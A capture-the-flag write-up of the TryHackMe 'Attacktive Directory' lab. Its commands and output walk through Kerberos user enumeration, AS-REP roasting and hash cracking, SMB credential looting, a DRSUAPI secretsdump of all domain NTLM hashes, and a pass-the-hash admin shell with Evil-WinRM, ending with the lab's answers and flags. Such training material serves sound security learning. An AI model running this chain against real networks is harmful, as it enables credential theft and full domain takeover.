






# Attacktive Directory


This [room](https://tryhackme.com/room/attacktivedirectory) from TryHackMe will cover a basic misconfigured **Domain Controller** via **Kerberos enumeration**, **ASREPRoasting**, **Impacket** and `Evil-WinRM`.

## Setup

```bash
# Impacket
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
pip3 install .
python3 setup.py install
```

___

## Enumeration

### Nmap scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN attackive-directory-full-port-scan.txt 10.10.193.110
Warning: 10.10.193.110 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.193.110
Host is up (0.037s latency).
Not shown: 64568 closed ports, 940 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-19 02:26:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-05-19T02:28:37+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2021-05-18T02:20:39
|_Not valid after:  2021-11-17T02:20:39
|_ssl-date: 2021-05-19T02:28:51+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49812/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-19T02:28:37
|_  start_date: N/A
```

___

### Welcome to Attacktive Directory 

#### What tool will allow us to enumerate port 139/445?

`enum4linux`

#### What is the NetBIOS-Domain Name of the machine?

Via `enum4linux`:



#### What invalid TLD do people commonly use for their Active Directory Domain? 

`.local`

___

### Enumerating Users via Kerberos

Wordlists provided:

- [userlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)
- [passwordlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)

#### What command within Kerbrute will allow us to enumerate valid usernames?

`userenum`

#### What notable account is discovered? (These should jump out at you)



> Do not forget to add `IP spookysec.local` into `/etc/hosts`  

```bash
$ ./kerbrute_linux_amd64 userenum --dc spookysec.local -d THM-AD userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/19/21 - Ronnie Flathers @ropnop

2021/05/19 04:49:28 >  Using KDC(s):
2021/05/19 04:49:28 >   spookysec.local:88

2021/05/19 04:49:29 >  [+] VALID USERNAME:       james@THM-AD
2021/05/19 04:49:29 >  [+] VALID USERNAME:       svc-admin@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       James@THM-AD
2021/05/19 04:49:30 >  [+] VALID USERNAME:       robin@THM-AD
2021/05/19 04:49:34 >  [+] VALID USERNAME:       darkstar@THM-AD
2021/05/19 04:49:36 >  [+] VALID USERNAME:       administrator@THM-AD
2021/05/19 04:49:40 >  [+] VALID USERNAME:       backup@THM-AD
2021/05/19 04:49:42 >  [+] VALID USERNAME:       paradox@THM-AD
2021/05/19 04:49:54 >  [+] VALID USERNAME:       JAMES@THM-AD
2021/05/19 04:49:58 >  [+] VALID USERNAME:       Robin@THM-AD
2021/05/19 04:50:23 >  [+] VALID USERNAME:       Administrator@THM-AD
2021/05/19 04:51:19 >  [+] VALID USERNAME:       Darkstar@THM-AD
2021/05/19 04:51:34 >  [+] VALID USERNAME:       Paradox@THM-AD
2021/05/19 04:52:27 >  [+] VALID USERNAME:       DARKSTAR@THM-AD
2021/05/19 04:52:44 >  [+] VALID USERNAME:       ori@THM-AD
2021/05/19 04:53:14 >  [+] VALID USERNAME:       ROBIN@THM-AD
2021/05/19 04:54:25 >  Done! Tested 73317 usernames (16 valid) in 296.440 seconds
```

The answer is `svc-admin`

#### What is the other notable account is discovered? (These should jump out at you)

`backup`

___

## Exploitation (Abusing Kerberos)

> I highly recommand to watch this [VbScrub - Kerberos](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Z0bWmjwgUSLGTzm1k_kVZo) YouTube playlist before continuing.

> And for french readers, this article from hackndo's blog: [ASREPRoasting](https://beta.hackndo.com/kerberos-asrep-roasting/)

**ASReproasting** occurs when a user account has the privilege _"Does not require Pre-Authentication"_ set. 

> This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

To take advantage of this, we'll use `GetNPUsers.py` (from **Impacket**) that will allow us to query ASReproastable accounts from the Key Distribution Center. 

> **Note**:The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```bash
$ locate GetNPUsers.py
/usr/local/bin/GetNPUsers.py
/usr/local/bin/GetNPUsers.pyc
/usr/share/doc/python3-impacket/examples/GetNPUsers.py
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/svc-admin -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/backup -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

`svc-admin` &uarr;

### Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

`Kerberos 5 AS-REP etype 23` &darr;



### What mode is the hash?

`18200` &uarr;

### Now crack the hash with the modified password list provided, what is the user accounts password?

```bash
$ hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8:management2005
..
```

___

## Enumration (Back to the Basics)

### Using utility can we map remote SMB shares?

`smbclient`

###  Which option will list shares?

`-L`

### How many remote shares is the server listing?

There are **6**



### There is one particular share that we have access to that contains a text file. Which share is it?

```
$ smbclient //10.10.193.110/backup -U 'svc-admin%management2005'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3930770 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

### What is the content of the file?

`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

### Decoding the contents of the file, what is the full contents?

`backup@spookysec.local:backup2517860`



___

## Elevating Privileges within the Domain 

> Now that we have new user account credentials, we may have more privileges on the system than before.

Knowing this, we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

```bash
$ python3 /usr/local/bin/secretsdump.py -just-dc-ntlm spookysec.local/backup:backup2517860@$TARGET
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:0942ad72c183935a736ea0a211fabdec:::
```

### What method allowed us to dump NTDS.DIT?

`DRSUAPI`

### What is the Administrators NTLM hash?

`0e0363213e37b94221497260b0bcb4fc`

### What method of attack could allow us to authenticate as the user without the password?

[**Pass The Hash**](https://beta.hackndo.com/pass-the-hash/)

### Using a tool called Evil-WinRM what option will allow us to use a hash?

`-H`

```bash
root@kali:~/thm/attackive-directory# evil-winrm -i $TARGET -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami
thm-ad\administrator
```



___

## Flag Submission Panel

### svc-admin

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc-admin\Desktop> dir


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc-admin\Desktop> type user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
```

### backup

```
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\backup\Desktop> dir


    Directory: C:\Users\backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:19 PM             26 PrivEsc.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\backup\Desktop> type PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}
```

### Administrator

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Desktop> dir                                                                                      
                                                                                                                                                             
                                                                                                                                                             
    Directory: C:\Users\Administrator\Desktop                                                                                                                
                                                                                                                                                             
                                                                                                                                                             
Mode                LastWriteTime         Length Name                                                                                                        
----                -------------         ------ ----                                                                                                        
-a----         4/4/2020  11:39 AM             32 root.txt                                                                                                    
                                                                                                                                                             
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
```

___

## Tools

- [Kerbrute](https://github.com/ropnop/kerbrute/releases)
- [impacket](https://github.com/SecureAuthCorp/impacket)
___

## Useful links

- [VbScrub - Kerberos playlist](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Z0bWmjwgUSLGTzm1k_kVZo)
- [Hackndo - ASREPRoasting]((https://beta.hackndo.com/kerberos-asrep-roasting/))
- [My Boot2root cheatsheet - Kerberos](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#kerberos)
- [Quering and Cracking Kerberos Tickets!](https://blog.spookysec.net/kerberos-abuse/)
